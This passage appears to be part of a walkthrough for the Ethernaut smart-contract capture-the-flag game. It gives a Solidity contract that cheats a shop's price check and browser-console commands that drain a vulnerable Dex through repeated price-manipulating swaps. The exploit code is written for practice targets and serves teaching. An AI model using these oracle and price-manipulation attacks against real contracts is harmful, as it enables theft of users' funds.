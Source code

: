     contract ShopLifter is Buyer {

        function attack(address instance) external {
            IShop(instance).buy();
        }

        function price() external view returns (uint) {
            if(!IShop(msg.sender).isSold()){
                return 100;
            }
            else {
                return 0;
            }
        }
    }

You can see that when `isSold` is `false`, it gives a price of 100, but after `isSold` is toggled to `true`, it returns a price of 0.

Deploy the ShopLifter contract, call `attack`, and you should be good to go! Submit the level and move on.

## 23. Dex

This level is very simple - you can finish it in the browser console. You're going to learn why it's better to use trusted oracles to get prices and other information - they're harder to manipulate!

Let's get set up:

    let token1 = await contract.token1()
    let token2 = await contract.token2()
    await contract.approve(instance,10000000000000) #approve the instance to spend an arbitrary high number of tokens

See how a swap of all of token1 into token2 affects the price:

    await contract.getSwapPrice(token2, token1, 10) //should return 10
    await contract.swap(token1, token2, 10)
    await contract.getSwapPrice(token2, token1, 10) //should return 12

This means that instead of 10:10, price is now 10:12. And since it's calculated as a flat rate before the swap occurs, you can now swap your 20 token2 coins into 24 token1 coins. You may see where this is going.

    //swap all of token2 back to token1
    await contract.swap(token2, token1, await contract.balanceOf(token2, player))
    
    //swap all of token1 back to token2
    await contract.swap(token1, token2, await contract.balanceOf(token1, player))
    
    //repeat 
    await contract.swap(token2, token1, await contract.balanceOf(token2, player))
    await contract.swap(token1, token2, await contract.balanceOf(token1, player))
    await contract.swap(token2, token1, await contract.balanceOf(token2, player))
    
    //At this point, you'll get an error if you try again since there aren't enough tokens left in the contract for your input. 
    //Get contract's balance of token we're swapping into (token1)
    await contract.balanceOf(token1, instance)
